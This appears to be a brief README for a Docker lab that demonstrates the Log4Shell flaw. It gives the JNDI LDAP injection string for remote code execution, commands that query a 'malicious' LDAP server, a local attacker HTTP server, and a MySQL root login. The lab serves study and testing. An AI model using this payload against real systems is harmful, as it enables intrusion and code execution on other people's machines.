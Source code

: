 Do the RCE via `${jndi:ldap://snoopy-ldap-server:1389/a}` 
Connect database container from shell via `mysql -h 127.0.0.1 -P 3306 -u root -p biscuits`
Query the spring LDAP authentication server via `ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"`
Query the malicious LDAP server via `ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"`
Access the malicious http server at `http://localhost:8000`

Dependencies : 

Working install of docker and docker compose. 